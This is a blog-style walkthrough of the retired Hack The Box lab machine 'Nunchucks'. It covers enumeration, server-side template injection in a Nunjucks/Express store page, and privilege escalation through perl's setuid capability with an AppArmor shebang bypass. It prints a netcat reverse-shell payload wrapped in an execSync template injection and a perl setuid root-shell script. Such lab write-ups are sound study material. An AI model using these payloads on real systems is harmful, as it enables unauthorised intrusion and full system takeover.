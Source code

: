 ```yaml
---
title: "Nunchucks HTB"
date: 2021-11-09T17:30:30
categories:
  - study
tags:
  - Linux
  - Web
  - NodeJS
  - SSTI
  - SUID
  - AppArmor
classes: wide
---
```


Nunchucks is a 7 day retired box, it is easy rated and it can be found [here.](https://app.hackthebox.com/machines/Nunchucks)

>*"Nunchucks is a easy machine that explores a NodeJS-based Server Side Template Injection (SSTI)."*

<h2> Enumeration</h2>

**Nmap scan results:**

```
22/tcp  open  ssh      syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                                            
80/tcp  open  http     syn-ack nginx 1.18.0 (Ubuntu)                                                                        
| http-methods:                                                                                                                                                  
|_  Supported Methods: GET HEAD POST OPTIONS                                 
|_http-server-header: nginx/1.18.0 (Ubuntu)                                                                                                                      
|_http-title: Did not follow redirect to https://nunchucks.htb/                                                                                                  
443/tcp open  ssl/http syn-ack nginx 1.18.0 (Ubuntu)                                                                     
|_http-server-header: nginx/1.18.0 (Ubuntu)     
|_http-title: Nunchucks - Landing Page                                                                               
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK/localityName=Bournemouth
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
```

<h4>What is the scan telling us?</h4>

- Port 22 is open showing OpenSSH 8.2p1 on Ubuntu.
- Port 80 is open showing a nginx webserver.
- Port 443 shows ssl/http or https nginx webport.

We see the nunchucks.htb domain so we add it to our `/etc/hosts` file.

Navigating to the main page on port 443 and 80 we see: 

<img src="/assets/images/nunchucks/nunchuck0.PNG" alt="Different Vhost found.">

There is a registration and login page. However when we attempt to register or log in we get an error that logins and registrations are temporarily disabled.

**Gobuster:**
We use Gobuster's dir mode and find nothing of note, just things you can find navigating the site. 

However using vhost mode we find the following:

<img src="/assets/images/nunchucks/nunchuck1.PNG" alt="Different Vhost found.">

We add this to our `/etc/hosts` file and navigate to it.

<img src="/assets/images/nunchucks/nunchuck2.PNG" alt="https://store.nunchucks.htb">

From here we try to navigate through all the buttons and find that none of them link to any other page. However, inputting a test email shows that this site may be vulnerable to a Server-Side Template Injection (SSTI). 

<img src="/assets/images/nunchucks/nunchuck3.PNG" alt="Returns our email.">

<h4>What is an SSTI?</h4>

[Portswigger](https://portswigger.net/research/server-side-template-injection) explains SSTI as:

>*"Web applications frequently use template systems such as Twig and FreeMarker to embed dynamic content in web pages and emails. Template Injection occurs when user input is embedded in a template in an unsafe manner."*

We can test for an SSTI by submitting math to the server and seeing what is returned:

<img src="/assets/images/nunchucks/nunchuck4.PNG" alt="It's executing!">

The server has seen `7*7` and has returned 49 to us. It is executing what we give it, essentially an RCE.

<h2>Foothold</h2>

From here we have to understand what underlying template engine is running to see if there are any known vulns. We could test and devise our own manually but I'm not quiteeeeeee there yet.

Using Burpsuite to capture the email submission and seeing what the response is with repeater we see:

<img src="/assets/images/nunchucks/nunchuck5.PNG" alt="Powered by Express">

According to [wikipedia](https://en.wikipedia.org/wiki/Express.js), Express is:

>*"Express.js, or simply Express, is a back end web application framework for Node.js"* 

From here more googling leads us to a list of template engines usable by Express, including one named "Nunjucks".

We google for "Nunjucks SSTI" and find a nice [breakout guide](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine).

There exists a way to print `/etc/passwd`. Changing this to an email format and adding `\` between the double quotes to prevent errors:

<img src="/assets/images/nunchucks/nunchuck6.PNG" alt="Returns /etc/passwd">

Since we know this breakout works on this site we can now execute whatever we want! 

We startup our classic nc listener and find a reverse shell script to insert like so:

```
execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOURIP YOURPORT >/tmp/f')\")()}}
```

We catch this shell, navigate to `/home/david` and see the `user.txt` right there:

<img src="/assets/images/nunchucks/nunchuck7.PNG" alt="User!">

<h2>Privilege Escalation</h2>

From here we notice that the box has a `SUID` tag on it, and run `getcap -r / 2>/dev/null` to find out what has what capabilities:

<img src="/assets/images/nunchucks/nunchuck8.PNG" alt="Good old setuid.">

We see `/usr/bin/perl = cap_setuid+ep` which we know from [Cap](https://moseskonsue.github.io/writeup/cap/) will allow us to escalate privileges. Checking [GTFObins](https://gtfobins.github.io/gtfobins/perl/) we see a one liner to give us root. 

However running it does... Nothing?

Being completely stuck I check out a great writeup from [0xdf](https://0xdf.gitlab.io/2021/11/02/htb-nunchucks.html). Who explains that the reason why nothing is happening is because of [AppArmor](https://en.wikipedia.org/wiki/AppArmor), from wikipedia:

>*"AppArmor ("Application Armor") is a Linux kernel security module that allows the system administrator to restrict programs' capabilities with per-program profiles"*

AppArmor would have revealed itself if I attempted to run the perl one liner in a script instead. Returning the following:

```
Can't open perl script "x": Permission denied
```

0xdf points out that there is a known [bug](https://bugs.launchpad.net/apparmor/+bug/1911431). This bug means that AppArmor will prevent execution when the binary is invoked via path, but if it's invoked by a SheBang(#) no such protection is offered.

This means we can create a script version of the one liner in `/tmp` that looks like:

```perl
#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);

exec "/bin/sh"
```

Which results in:

<img src="/assets/images/nunchucks/nunchuck9.PNG" alt="whoami">

We find the root flag in the usual `/root/root.txt`.


<img src="/assets/images/nunchucks/nunchuck10.PNG" alt="Nice!">


<h4>For next time:</h4>

- The presence of one domain name suggests the possibility of others existing, use Gobuster vhost to discover others.
- Figure out a good workflow for testing sites for OWASP top 10 vulns. {{7/7}} etc. 



